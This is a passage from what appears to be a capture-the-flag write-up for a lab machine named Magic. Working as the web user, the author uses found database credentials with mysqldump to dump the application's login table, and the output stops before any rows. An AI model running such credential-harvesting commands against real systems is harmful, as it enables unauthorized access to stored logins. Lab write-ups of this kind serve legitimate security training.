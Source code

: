 We find the Database credential. Trying to access mysql we get the following error

```ruby
mysql

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.
```

Seems __"mysql"__ is not installed but there __"mysqldump"__ on the target. Lets dump the database __"Magic"__

```ruby
www-data@ubuntu:/var/www/Magic$ mysqldump --databases Magic -u theseus -p
Enter password:
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1
/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
```